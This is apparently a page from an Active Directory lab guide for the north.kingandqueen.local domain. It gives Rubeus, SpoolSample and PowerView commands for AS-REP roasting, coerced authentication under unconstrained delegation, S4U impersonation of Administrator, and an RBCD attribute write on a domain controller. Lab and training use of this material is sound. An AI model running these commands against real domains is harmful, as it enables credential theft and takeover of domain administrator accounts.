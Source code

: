 #### AS-REP Roasting
- **Target**: user_asrep in north.kingandqueen.local
- **Initial Access**: Network access to the domain
- **Attack Technique**: Request AS-REP messages for users with Kerberos pre-authentication disabled
- **Commands**:
  ```powershell
  # Using Rubeus
  Rubeus.exe asreproast /user:user_asrep /domain:north.kingandqueen.local /outfile:asrep.txt
  ```

#### Unconstrained Delegation
- **Target**: Exchange server in north.kingandqueen.local
- **Initial Access**: Compromise the Exchange server
- **Attack Technique**: Force a domain controller to authenticate to the compromised server
- **Commands**:
  ```powershell
  # Using Rubeus to monitor for TGTs
  Rubeus.exe monitor /interval:5
  
  # Using SpoolSample to trigger authentication
  SpoolSample.exe DC02.north.kingandqueen.local EXCHANGE.north.kingandqueen.local
  ```

#### Constrained Delegation
- **Target**: SQL server in north.kingandqueen.local
- **Initial Access**: Compromise the SQL server account
- **Attack Technique**: Use S4U2Self and S4U2Proxy to impersonate users to specific services
- **Commands**:
  ```powershell
  # Using Rubeus
  Rubeus.exe s4u /user:SQL$ /domain:north.kingandqueen.local /rc4:<hash> /impersonateuser:Administrator /msdsspn:"CIFS/DC02.north.kingandqueen.local" /ptt
  ```

#### Resource-Based Constrained Delegation (RBCD)
- **Target**: DC02 in north.kingandqueen.local
- **Initial Access**: Compromise the Web server
- **Attack Technique**: Modify the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
- **Commands**:
  ```powershell
  # Using PowerView to configure RBCD
  Import-Module .\PowerView.ps1
  $ComputerSid = Get-DomainComputer WEB -Properties objectsid | Select -Expand objectsid
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)
  Get-DomainComputer DC02 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
  
  # Using Rubeus to exploit RBCD
  Rubeus.exe s4u /user:WEB$ /domain:north.kingandqueen.local /rc4:<hash> /impersonateuser:Administrator /msdsspn:"CIFS/DC02.north.kingandqueen.local" /ptt
  ```

